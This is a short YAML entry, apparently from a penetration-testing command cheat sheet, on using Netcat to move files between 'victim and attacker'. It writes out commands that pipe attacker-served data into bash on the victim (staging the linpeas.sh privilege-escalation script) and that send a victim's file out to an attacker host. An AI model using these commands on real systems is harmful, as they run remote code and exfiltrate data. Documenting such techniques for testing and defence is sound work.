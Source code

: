 ```yaml
---
description: |
  The Netcat (nc) command is a command-line utility for reading and writing data between two computer networks. Which can be used to transfer files between victim and attacker.

  Command Reference:

  	File to copy: linpeas.sh

    ```nc -lvnp 9001 < linpeas.sh (attacker)``` & ```nc 10.10.21.14 9001 | bash (victim)```

    ```nc 10.10.21.14 9001 < file.txt (victim)``` & ```nc -lvnp 9001 > file.txt (attacker)```

command: |
  nc -lvnp 9001 < linpeas.sh
items:
  - Shell
services:

OS:
  - Windows
  - Linux
attack_types:
  - General
references:
  - https://medium.com/iostrap/how-to-transfer-files-between-servers-using-netcat-d8bc13eebea
  - https://linux.die.net/man/1/nc
---
```

